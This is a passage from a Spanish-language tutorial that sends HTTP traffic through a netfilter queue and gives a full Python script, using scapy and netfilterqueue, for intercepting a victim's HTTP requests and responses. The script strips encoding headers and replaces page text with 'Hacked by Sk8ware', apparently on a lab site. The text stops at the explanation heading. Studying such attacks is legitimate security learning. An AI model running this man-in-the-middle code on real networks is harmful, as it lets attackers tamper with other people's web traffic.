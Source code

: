 El comando anterior redirige todo el tráfico HTTP a la cola de netfilter para que podamos modificar los paquetes.

### 2. Creación del script en Python: `http_spoofing.py`

A continuación, el código que intercepta las respuestas HTTP de la página y modifica el contenido antes de que llegue a la víctima.

#### Código para modificar el título de la página web

```python
#!/usr/bin/python3

import netfilterqueue
import scapy.all as scapy
import re

# Función para modificar la carga del paquete
def set_load(packet, load):
    packet[scapy.Raw].load = load
    del packet[scapy.IP].len  # Eliminamos la longitud para recalcularla
    del packet[scapy.IP].chksum  # Eliminamos el checksum para que sea recalculado
    del packet[scapy.TCP].chksum  # Eliminamos el checksum TCP para recalcularlo
    return packet

# Función que procesa los paquetes
def process_packet(packet):
    scapy_packet = scapy.IP(packet.get_payload())
    if scapy_packet.haslayer(scapy.Raw):  # Si el paquete tiene capa Raw (HTTP data)
        try:
            if scapy_packet[scapy.TCP].dport == 80:  # Solicitudes HTTP (puerto 80)
                print(f"\n[+] Solicitud HTTP interceptada\n")
                modified_load = re.sub(b"Accept-Encoding:.*\\r\\n", b"", scapy_packet[scapy.Raw].load)
                new_packet = set_load(scapy_packet, modified_load)
                packet.set_payload(new_packet.build())
            elif scapy_packet[scapy.TCP].sport == 80:  # Respuesta del servidor
                print(f"\n[+] Respuesta del servidor interceptada\n")
                modified_load = scapy_packet[scapy.Raw].load.replace(b"Home of Acunetix Art", b"Hacked by Sk8ware")
                new_packet = set_load(scapy_packet, modified_load)
                packet.set_payload(new_packet.build())
        except:
            pass
    packet.accept()

# Inicializamos la cola de paquetes
queue = netfilterqueue.NetfilterQueue()
queue.bind(0, process_packet)
queue.run()
```

### Explicación del código:
